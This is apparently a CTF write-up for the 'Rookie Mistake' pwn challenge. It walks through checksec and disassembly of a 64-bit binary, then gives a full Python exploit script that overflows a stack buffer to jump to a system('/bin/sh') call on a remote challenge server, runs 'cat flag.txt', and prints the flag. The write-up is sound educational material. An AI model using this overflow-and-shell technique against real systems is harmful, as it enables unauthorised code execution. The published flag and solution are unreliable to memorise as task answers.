

# Rookie Mistake CTF Challenge

## 1. Reconnaissance

### Challenge Description

**Goal:** Exploit a binary to achieve arbitrary code execution to a specific address and retrieve the flag. The challenge hints at a "Ret2win but not in a function, but a certain address."

### Files Provided

```bash
ls -lah /mnt/c/Users/Chris/Desktop/projects/2025-hack-the-boo/challenges/rookie_mistake/
```

**Output:**
```
total 32K
drwxrwxrwx 1 node node 4.0K Oct 25 06:39 .
drwxrwxrwx 1 node node 4.0K Oct 25 06:34 ..
-rwxrwxrwx 1 node node  905 Oct 25 06:26 PROMPT.md
-rwxrwxrwx 1 node node  840 Aug 20 18:28 README.txt
-rwxrwxrwx 1 node node  562 Oct 25 06:39 WALKTHROUGH.md
-rwxrwxrwx 1 node node  21K Jul 15 21:54 rookie_mistake
```

**Key Files:** `rookie_mistake` (the binary), `README.txt`, `PROMPT.md`.

### Remote Connection

`nc 64.226.93.37 30297`

## 2. Analysis

### Binary Security Features

```bash
file /mnt/c/Users/Chris/Desktop/projects/2025-hack-the-boo/challenges/rookie_mistake/rookie_mistake && checksec --file=/mnt/c/Users/Chris/Desktop/projects/2025-hack-the-boo/challenges/rookie_mistake/rookie_mistake
```

**Output (excerpt):**
```
/mnt/c/Users/Chris/Desktop/projects/2025-hack-the-boo/challenges/rookie_mistake/rookie_mistake: ELF 64-bit LSB executable, x86-64, ... not stripped
[*] '/mnt/c/Users/Chris/Desktop/projects/2025-hack-the-boo/challenges/rookie_mistake/rookie_mistake'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

**Summary:**
-   **Architecture:** x86-64, little-endian.
-   **No Canary:** Buffer overflow to overwrite the return address is possible.
-   **NX Enabled:** Shellcode on the stack is not executable. ROP or jumps to existing code are required.
-   **No PIE:** Binary base address is fixed at `0x400000`. All addresses are constant.

### Disassembly Analysis

```bash
objdump -d /mnt/c/Users/Chris/Desktop/projects/2025-hack-the-boo/challenges/rookie_mistake/rookie_mistake > /home/chris/.gemini/tmp/844560c113e1d7cb39bf1872867ca00b5728ee896d6f9fe3b59741b7f920691d/rookie_mistake_disassembly.txt
```

**Key Findings:**
1.  **Vulnerable Function: `main` (Address: `0x40176b`)**
    -   At `0x4017bc`, `read@plt` is called to read `0x2e` (46) bytes into a stack buffer located at `rbp - 0x20` (32 bytes). This is a **buffer overflow**.
    -   **Offset to `RIP`:** `0x20` (buffer) + `0x8` (saved `RBP`) = `0x28` bytes (40 bytes).

2.  **Target "Win" Address:**
    -   In the `overflow_core` function, a specific instruction sequence at `0x401758` prepares and calls `system("/bin/sh")`.
    -   **Address `0x401758`:** `lea rax,[rip+0x1948]` (loads `0x4030a7` into `RAX`).
    -   **Address `0x40175f`:** `mov rdi,rax` (moves `RAX` content to `RDI`).
    -   **Address `0x401762`:** `call 0x401120 <system@plt>`.

3.  **"/bin/sh" String Location:**
    -   Dumping the `.rodata` section reveals `"/bin/sh"` at address `0x4030a7`.

## 3. Exploitation

### Payload Construction

-   **Padding:** `b'A' * 40` (40 bytes of junk to fill the buffer and saved `RBP`).
-   **Return Address:** `p64(0x401758)` (address of the instruction sequence that calls `system("/bin/sh")`).

**Full Payload:** `b'A' * 40 + p64(0x401758)`

### Exploit Script (`solve.py`)

```python
import socket
import struct
import re
import time

# Remote connection details
HOST = '64.226.93.37'
PORT = 30297

def p64(address):
    """Packs a 64-bit address into bytes (little-endian)."""
    return struct.pack("<Q", address)

def exploit():
    print(f"[*] Connecting to {HOST}:{PORT}")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    # Receive initial banner until the prompt
    buffer = b""
    while b'$ ' not in buffer:
        try:
            chunk = s.recv(1)
            if not chunk:
                print("[-] Connection closed prematurely.")
                return
            buffer += chunk
        except socket.timeout:
            print("[-] Socket timeout while waiting for prompt.")
            return
    print(f"[+] Received prompt: {buffer.decode(errors='ignore').strip()}")

    # Payload construction
    offset = 40
    target_address = 0x401758

    payload = b'A' * offset
    payload += p64(target_address)

    print(f"[*] Sending payload: {payload}")
    s.sendall(payload + b'\n')

    time.sleep(0.5)

    print("[*] Sending 'cat flag.txt' command")
    s.sendall(b'cat flag.txt\n')

    print("[*] Receiving all output...")
    full_output = b""
    s.settimeout(1)
    while True:
        try:
            data = s.recv(4096)
            if not data:
                break
            full_output += data
        except socket.timeout:
            break
    s.close()

    print(f"[+] Full output received:\n{full_output.decode(errors='ignore')}")

    flag_match = re.search(r'HTB{[^}]+}', full_output.decode(errors='ignore'))
    if flag_match:
        flag = flag_match.group(0)
        print(f"[+] Flag found: {flag}")
        with open("flag.txt", "w") as f:
            f.write(flag)
        print("[+] Flag saved to flag.txt")
    else:
        print("[-] Flag not found in the output.")

if __name__ == "__main__":
    exploit()
```

### Execution

```bash
python3 solve.py
```

**Output:**
```
[*] Connecting to 64.226.93.37:30297
[+] Received prompt: 【Gℓιт¢н Vσι¢є 】Яοοқ... Μу ɓєℓονєɗ нυηтєя.. Aℓιgη тнє ¢οяєѕ.. Eѕ¢αρє!

яσσк@ιє:~ 
[*] Sending payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAX\x17@\x00\x00\x00\x00\x00'
[*] Sending 'cat flag.txt' command
[*] Receiving all output...
[+] Full output received:

【Gℓιт¢н Vσι¢є 】Шɨʟʟ ʏѳʋ ʍąŋąɠɛ ȶѳ ƈąʟʟ ȶнɛ ƈѳяɛ ąŋɗ ɛʂ¢ąքɛ?!

HTB{r3t2c0re_3sc4p3_th3_b1n4ry_556977e55fba1381745157f1ff644b25}
[+] Flag found: HTB{r3t2c0re_3sc4p3_th3_b1n4ry_556977e55fba1381745157f1ff644b25}
[+] Flag saved to flag.txt
```

## 4. Solution & Flag

**Flag:** `HTB{r3t2c0re_3sc4p3_th3_b1n4ry_556977e55fba1381745157f1ff644b25}`

---


